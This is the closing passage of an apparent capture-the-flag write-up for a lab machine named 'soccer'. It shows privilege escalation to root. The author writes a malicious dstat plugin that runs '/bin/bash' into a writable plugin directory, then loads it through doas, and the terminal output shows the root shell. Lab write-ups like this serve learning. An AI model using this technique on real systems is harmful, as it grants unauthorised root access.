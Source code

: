 I found out that we have write permission over `/usr/local/share/dstat/`

So I'll create a plugin with the name `dstat_hack.py` with the content of `import os; os.system("/bin/bash")` which is going to launch a shell as root.

```bash
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_hack.py
```

Now i'll run `dstat` as root and load the plugin with `--hack`.

```terminal
player@soccer:~$ doas -u root /usr/bin/dstat --hack
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/home/player# id
uid=0(root) gid=0(root) groups=0(root)
```

And just like that we got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
